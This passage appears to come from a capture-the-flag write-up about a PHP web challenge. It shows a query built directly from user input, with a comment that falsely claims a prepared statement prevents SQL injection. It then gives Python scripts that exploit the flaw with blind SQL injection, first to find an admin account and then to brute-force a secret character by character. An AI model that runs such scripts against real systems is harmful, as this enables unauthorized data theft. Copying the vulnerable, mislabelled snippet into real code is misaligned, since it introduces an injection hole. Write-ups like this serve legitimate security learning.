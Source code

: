 There are 500 admins! The right admins have to be found first.


```php
// Fetch the 'user' parameter from the query string
$userParam = $_GET['user'];

// Use prepared statement to prevent SQL injection
if($userParam){
if($userParam !=  "all"){
$query = "SELECT username, password, bio FROM users where username = '$userParam' ";
}
}
```

As in ```dump.sql``` file, the right admins have bio start with "Flag", so we will find by that way.

My script to do this

```py
import requests

usernames = []

# find the admin(s)
for index in range(501):
    URL = "http://34.132.132.69:8000/?user=admin{}' and bio like 'Flag%"

    response = requests.get(URL.format(index))
    if "admin{}".format(index) in response.text:
        usernames.append("admin{}".format(index))
        

print(usernames)
```

Only ```admin343``` found.

#### Get flag

Brute force each character of flag

```py
import requests
import string

ALPHABET = "_}" + string.digits + string.ascii_lowercase + string.digits + string.ascii_uppercase

flag_guess = "Flag{"   
while "}" not in flag_guess:
    for character in ALPHABET:
        if character == "_":
            character = "\_"
        URL = f"http://34.132.132.69:8000/?user=admin343' and bio like '{flag_guess + character}%"

        response = requests.get(URL)
        if "admin343" in response.text:
            flag_guess += character
            print(flag_guess)
            break
```
